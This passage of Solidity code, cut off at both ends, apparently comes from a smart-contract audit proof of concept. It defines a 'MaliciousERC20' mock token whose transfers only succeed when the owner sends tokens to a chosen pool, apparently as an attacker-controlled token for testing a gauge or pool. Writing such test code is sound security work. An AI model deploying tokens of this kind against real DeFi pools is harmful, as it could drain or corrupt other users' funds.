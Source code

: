 ```solidity
        return newWrapper;
    }
}
interface IDepositableGauge {
    function deposit(uint amount, uint tokenId) external;
}

contract MaliciousERC20 is MockERC20 {

    address immutable owner;
    address pool;

    constructor() MockERC20("You only live once so farm as much as you can", "YOLO", 18){
        owner = msg.sender;
    }


    function setPool(address _pool) external {
        require(msg.sender == owner);
        pool = _pool;
    }

    


    function transfer(address to, uint256 amount) public override returns (bool) {
        require(to == pool && msg.sender == owner || msg.sender == owner && to == pool, "Must be under control");
        balanceOf[msg.sender] -= amount;

        // Cannot overflow because the sum of all user
        // balances can't exceed the max uint256 value.
        unchecked {
            balanceOf[to] += amount;
        }

        emit Transfer(msg.sender, to, amount);

        return true;
    }

    function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public override returns (bool) {
        require(to == pool && msg.sender == owner || msg.sender == owner && to == pool, "Must be under control");
        uint256 allowed = allowance[from][msg.sender]; // Saves gas for limited approvals.

        if (allowed != type(uint256).max) allowance[from][msg.sender] = allowed - amount;

        balanceOf[from] -= amount;

        // Cannot overflow because the sum of all user
        // balances can't exceed the max uint256 value.
        unchecked {
            balanceOf[to] += amount;
        }

        emit Transfer(from, to, amount);

        return true;
```